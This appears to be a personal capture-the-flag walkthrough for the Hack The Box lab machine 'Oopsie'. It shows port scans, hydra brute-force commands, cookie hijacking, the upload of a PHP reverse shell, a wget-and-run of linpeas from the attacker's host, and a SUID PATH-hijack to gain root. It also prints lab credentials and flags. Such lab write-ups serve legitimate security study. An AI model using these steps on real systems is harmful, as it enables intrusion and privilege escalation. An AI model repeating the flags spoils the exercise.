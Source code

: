 # Oopsie 

> Very Easy | Linux 

<br>

### Process:

1. port scan:
	- `sudo nmap -T4 -p- 10.10.10.28` 
	- `sudo nmap -T4 -A -p 22,80 10.10.10.28` 
2. enumerate port 22:
	- try anonymous connection - failed
	- read banner = SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
3. enumerate port 80:
	- visit website `http://10.10.10.28`
		- found "admin" username
	- run gobuster: `gobuster dir -u http://10.10.10.28 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,bak,conf,txt`
	- check for robots.txt - none 
	- run nikto scan: `nikto -h 10.10.10.28`
		- found "/cdn-cgi/login/" page
	- inspect source code 
	- run gobuster against "/cdn-cgi" directory 
	- run gobuster against "/cdn-cgi/login" directory 
4. try to brute force admin login:
	- web login with hydra: `hydra 10.10.10.28 http-post-form "/cdn-cgi/login/login.php:username=^USER^&password=^PASS^:Log in" -l admin -
P /usr/share/wordlists/rockyou.txt -f -V` -- failed
	- SSH login with hydra: `hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.28 -T4` -- failed
5. used admin credentials found on last box [[achetype]]:
	- "admin:MEGACORP_4dm1n!!" -- sucess
6. check out Uploads tab:
	- need to be super admin to upload files
7. inspect Account tab:
	- displays access ID, name, and email
	- found admin account with cookies:
		- user: 34322
		- role: admin
	- these cookies values correspond with values in Accounts table 
	- try to find super admin account:
		- send request to Burp intruder
		-  select the "id" parameter
		-  set a Numbers type payload and enumerate from 1 to 100 with a step of 1
	- found super admin at `http://10.10.10.28/cdn-cgi/login/admin.php?content=accounts&id=30`
	- hijack cookie values:
		- user: 86575
		- role: super admin
	- can now upload files
8. try to upload PHP reverse shell:
	- download shell from [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
	- make changes and upload with hijacked cookies on `http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads&action=upload` page
	- then setup listener and navigate to `http://10.10.10.28/uploads/r.php` to execute ("r.php" is the name of the PHP reverse shell)
9. get user flag:
	- `cd /home/robert` -> `cat user.txt`
	- user flag = **f2c74ee8db7983851ab2a96a44eb7981**
10. get root flag:
	- stablise shell: `python3 -c 'import pty;pty.spawn("/bin/sh")'` -> `bash -i`
	- esclate privileges:
		- upload linpeas: `cd /var/tmp && wget http://10.10.14.93:8080/linpeas.sh`
		- run linpeas: `chmod +x linpeas.sh && ./linpeas.sh`
	- check the "db.php" file already found when enumerating website (for credentials)
		- found "robert:M3g4C0rpUs3r!"
	- login as robert: `su robert` -> [password]
	- find out what groups robert is apart of: `id`
		- "bugtracker" group
		- find bugtracker binary: `find / -type -f -group bugtracker 2> /dev/null`
		- has SUID bit set to run as root 
	- find out what program does when run: `/usr/bin/bugtracker` -- report bugs based on user provided ID
	- find out how it does this with strings: `strings /usr/bin/bugtracker`
		- calls the `cat` binary with a relative path (rather than absolute)
		- so can add a malicious cat program to call by chaging the PATH
	- exploit "bugtracker":
		- a) change PATH to add current directory first: `export PATH=/tmp:$PATH`
		- b) create a malicious "cat" binary that will be called: `cd /tmp && echo '/bin/bash' > cat && chmod +x cat`
		- c) run bugtracker: `/usr/bin/bugtracker`
	- get root flag:
		- `/bin/cat /root/root.txt`
		- root flag = **af13b0bee69f8a877c3faf667f7beacf**
11. post-exploitation:
	- in "/root/.config/filezilla" found FTP credentials in plaintext
	- "ftpuser:mc@F1l3ZilL4"

	
	
